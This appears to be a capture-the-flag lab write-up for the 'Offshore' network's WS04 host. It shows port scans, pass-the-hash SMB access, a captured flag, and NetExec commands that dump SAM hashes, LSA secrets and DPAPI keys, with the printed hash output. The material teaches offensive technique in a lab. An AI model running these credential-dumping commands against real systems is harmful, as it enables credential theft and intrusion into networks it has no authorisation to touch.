


As usual we can start by checking all the alive ports over the TCP protocoll:

```
PORT      STATE SERVICE            REASON         VERSION
135/tcp   open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 64 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 64 Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: ADMIN)
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 64
| rdp-ntlm-info: 
|   Target_Name: ADMIN
|   NetBIOS_Domain_Name: ADMIN
|   NetBIOS_Computer_Name: WS04
|   DNS_Domain_Name: ADMIN.OFFSHORE.COM
|   DNS_Computer_Name: WS04.ADMIN.OFFSHORE.COM
|   Product_Version: 6.1.7601
|_  System_Time: 2024-07-04T14:05:46+00:00
| ssl-cert: Subject: commonName=WS04.ADMIN.OFFSHORE.COM
| Issuer: commonName=WS04.ADMIN.OFFSHORE.COM
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-07-03T03:18:14
| Not valid after:  2025-01-02T03:18:14
| MD5:   d7ac:3641:24c7:3957:6b71:936b:d33f:953b
| SHA-1: 5290:ab05:17e8:cce6:77ab:faac:5e0a:d035:1eab:0637
| -----BEGIN CERTIFICATE-----
| MIIC8jCCAdqgAwIBAgIQHTt8rTHr97BI90BP0ix9gDANBgkqhkiG9w0BAQUFADAi
| MSAwHgYDVQQDExdXUzA0LkFETUlOLk9GRlNIT1JFLkNPTTAeFw0yNDA3MDMwMzE4
| MTRaFw0yNTAxMDIwMzE4MTRaMCIxIDAeBgNVBAMTF1dTMDQuQURNSU4uT0ZGU0hP
| UkUuQ09NMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEApZ9FLRbKPgW5
| WqWz/IGLYPXv8FQLQh+qH369hSfmxoWBF5VqZPJxaJIhl/aljZ6HgkLuVz65mtW/
| 01gwrFFXtb58guFjRC2mHgvn97oxO1N++VGLjbPHPh+lBQq6tm3FFTg+ytBupfKZ
| mKAVV4+9js+U77/iY5AuHRNpKDh/B0cYd2Am6034AT25w3zeTKPogsVGgTkbLWGS
| jfSa90y0ZYyA/3iZrIqiXLlna9T+WZYd4B6j4MtfYqHkOacMstbbNT8h3KcJgjXz
| ELxvkLyBgj+bbf2TdcpGqRei/NJYiKaBuDq6IwwF0+/C+Saa8eqdGjtJ+KaHT5BY
| xEMOYOmXiwIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMC
| BDAwDQYJKoZIhvcNAQEFBQADggEBAJkgidziMuwe8p161kZXNv1DHLTE8Bk4SqdS
| kAbMMJA/qZQZCn26ohZlB3PeL6pzDOVCErkviQuaKHGkCdOXBWbKEwPHr12lTUl7
| dv6mgVFuSCvTVpfGSt6G8nErRcwMkFMOGN3v0cUeID8iTtZfl43x31Ib4qgakVaf
| OaCry+x7uHP5JkVUKUemNmnnGiUC4rgJGy2TS+hEYbCim/M5O6LvCmxoAdtM66al
| jIUj90ellFYg9BwRAPpuwzhAy2ZiowL7aQBGvO7/Pi8XgVxE+W3WcsSuT6/hm6mB
| YXc8G3emzMoCZRomM0CIeQ6GN67EqNU9yA6+zaawBDalqocx5Ls=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-07-04T14:06:26+00:00; +2s from scanner time.
49152/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
49157/tcp open  msrpc              syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/4%OT=135%CT=%CU=%PV=Y%G=N%TM=6686AC60%P=x86_64-pc-linux-gnu)
SEQ(SP=100%GCD=1%ISR=10D%TI=I%CI=I%II=RI%TS=A)
SEQ(SP=100%GCD=2%ISR=10D%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)

Uptime guess: 2.489 days (since Tue Jul  2 04:21:45 2024)
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: WS04; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-07-04T14:05:50
|_  start_date: 2024-07-04T03:18:10
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 10966/tcp): CLEAN (Timeout)
|   Check 2 (port 43026/tcp): CLEAN (Timeout)
|   Check 3 (port 62330/udp): CLEAN (Timeout)
|   Check 4 (port 45622/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: WS04
|   NetBIOS computer name: WS04\x00
|   Domain name: ADMIN.OFFSHORE.COM
|   Forest name: ADMIN.OFFSHORE.COM
|   FQDN: WS04.ADMIN.OFFSHORE.COM
|_  System time: 2024-07-04T10:05:48-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 48m02s, deviation: 1h47m21s, median: 1s
```

Same goes for UDP:

```
──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# nmap -F -sU 172.16.3.103
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 15:51 CEST
Nmap scan report for 172.16.3.103
Host is up (0.00017s latency).
All 100 scanned ports on 172.16.3.103 are in ignored states.
Not shown: 100 open|filtered udp ports (no-response)

Nmap done: 1 IP address (1 host up) scanned in 20.17 seconds
```

&nbsp;

# SMB

This machine have been identified as WS04 and I see again some Windows 7 so I am wondering again if this crap is vulnerable to Ethernalblue?



Seems like no, so what about the possible shares? So far I will try to use Admin account.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# NetExec smb 172.16.3.103 -u Administrator -H c61f43b6a4db2676714713836b7d2ea6 -d "DEV.ADMIN.OFFSHORE.COM" --shares
SMB         172.16.3.103    445    WS04             [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS04) (domain:ADMIN.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.3.103    445    WS04             [+] DEV.ADMIN.OFFSHORE.COM\Administrator:c61f43b6a4db2676714713836b7d2ea6 
SMB         172.16.3.103    445    WS04             [*] Enumerated shares
SMB         172.16.3.103    445    WS04             Share           Permissions     Remark
SMB         172.16.3.103    445    WS04             -----           -----------     ------
SMB         172.16.3.103    445    WS04             ADMIN$                          Remote Admin
SMB         172.16.3.103    445    WS04             C$                              Default share
SMB         172.16.3.103    445    WS04             IPC$                            Remote IPC
```

Nothing strange again, what if we try Joe credentials?



nah, since I don't see any other juicy account I really think we need to pwn the `DC03` first.

&nbsp;

# Back on track

With the fresh credentials of DA gained by pwning the domain now we can gain access to this machine as well and grab another flag:

```
C:\Users\administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 8883-55BF

 Directory of C:\Users\administrator\Desktop

04/29/2018  03:40 AM    <DIR>          .
04/29/2018  03:40 AM    <DIR>          ..
08/15/2018  11:10 AM                31 flag.txt
               1 File(s)             31 bytes
               2 Dir(s)   3,777,712,128 bytes free

C:\Users\administrator\Desktop> type flag.txt
OFFSHORE{w@tch_th3_for3st_burn}
C:\Users\administrator\Desktop> exit
[*] Process cmd.exe finished with ErrorCode: 0, ReturnCode: 0
```

Now I don't see that much laying around so I will procede by dumping the SAM:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# NetExec smb 172.16.3.103 -u yovecio -p 'Coglione1!' --sam
SMB         172.16.3.103    445    WS04             [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS04) (domain:ADMIN.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.3.103    445    WS04             [+] ADMIN.OFFSHORE.COM\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.3.103    445    WS04             [*] Dumping SAM hashes
SMB         172.16.3.103    445    WS04             Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.3.103    445    WS04             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.3.103    445    WS04             [+] Added 2 SAM hashes to the database
```

Next the LSASS.exe secrets but again not much:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# NetExec smb 172.16.3.103 -u yovecio -p 'Coglione1!' --lsa
SMB         172.16.3.103    445    WS04             [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS04) (domain:ADMIN.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.3.103    445    WS04             [+] ADMIN.OFFSHORE.COM\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.3.103    445    WS04             [+] Dumping LSA secrets
SMB         172.16.3.103    445    WS04             ADMIN.OFFSHORE.COM/Administrator:$DCC2$10240#Administrator#d6675cc14d898ef993be5909e59da8be: (2023-11-13 12:46:43)
SMB         172.16.3.103    445    WS04             DEV.ACMEBANK.COM/svc_manageeng:$DCC2$10240#svc_manageeng#1a956d6a916f1879c30e5ec4047b7090: (2018-05-12 07:18:49)
SMB         172.16.3.103    445    WS04             ADMIN.OFFSHORE.COM/bankvault:$DCC2$10240#bankvault#459c1ba028a6710d67efa426aee34ecd: (2018-04-29 02:52:44)
SMB         172.16.3.103    445    WS04             ADMIN.OFFSHORE.COM/yovecio:$DCC2$10240#yovecio#5e179afe4054ac1aef8acdae54da8d45: (2024-07-04 15:21:10)
SMB         172.16.3.103    445    WS04             ADMIN\WS04$:aes256-cts-hmac-sha1-96:da3d89ef3a675c6142daee014c5aa1130974d42f3ae13f6e12783e2c9c4ef8c8
SMB         172.16.3.103    445    WS04             ADMIN\WS04$:aes128-cts-hmac-sha1-96:583dc7c36c6ff2631e697e215d853a3b
SMB         172.16.3.103    445    WS04             ADMIN\WS04$:des-cbc-md5:f801bad6cb85fd85
SMB         172.16.3.103    445    WS04             ADMIN\WS04$:plain_password_hex:20004000410033006e0034004a004f0051003800670057002a0040007900500020004b002d0037005c0059005600780035004500750067004e0069003e0062003700340033004e002a00760075003800380026003e005b006b0062004800590047005f0063005300230058006c0058006f00540037005f005f00740055004f005100260032006600240054002c0053004e0025006700520075002e005600750024003500720077004d0068002c0032006c0075003a004a0035004500320047006c002c00720073003200350061003500710073006b0079006f0058004a0033002b0076002500220079004a0076006a00
SMB         172.16.3.103    445    WS04             ADMIN\WS04$:aad3b435b51404eeaad3b435b51404ee:2abf50d13b5e08b92ac2d90c1d125b99:::
SMB         172.16.3.103    445    WS04             dpapi_machinekey:0x82e7818cd07f1891455147929b85f3e2bafa37d8
dpapi_userkey:0x3e3bb4eebe646983a2e6c6d6a518c0cdf50eb2e1
SMB         172.16.3.103    445    WS04             NL$KM:3a9255329fc34f7553a0a439b6acdeff9a960120e1f3e40b9c0e72a04dc1254a014258d99fdbb2d193ece1202790ce3934a5550db728ca134c41d4011a475ac0
SMB         172.16.3.103    445    WS04             [+] Dumped 11 LSA secrets to /root/.nxc/logs/WS04_172.16.3.103_2024-07-04_172714.secrets and /root/.nxc/logs/WS04_172.16.3.103_2024-07-04_172714.cached
```

And lastly some DPAPI secrets:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore/admin.offshore.com]
└─# NetExec smb 172.16.3.103 -u yovecio -p 'Coglione1!' --dpapi                                                               
SMB         172.16.3.103    445    WS04             [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:WS04) (domain:ADMIN.OFFSHORE.COM) (signing:False) (SMBv1:True)
SMB         172.16.3.103    445    WS04             [+] ADMIN.OFFSHORE.COM\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.3.103    445    WS04             [+] Loading domain backupkey from nxcdb...
SMB         172.16.3.103    445    WS04             [*] Collecting User and Machine masterkeys, grab a coffee and be patient...
SMB         172.16.3.103    445    WS04             [+] Got 16 decrypted masterkeys. Looting secrets...
SMB         172.16.3.103    445    WS04             [-] No secrets found
```

I will move on to the enumeration of the fourth domain.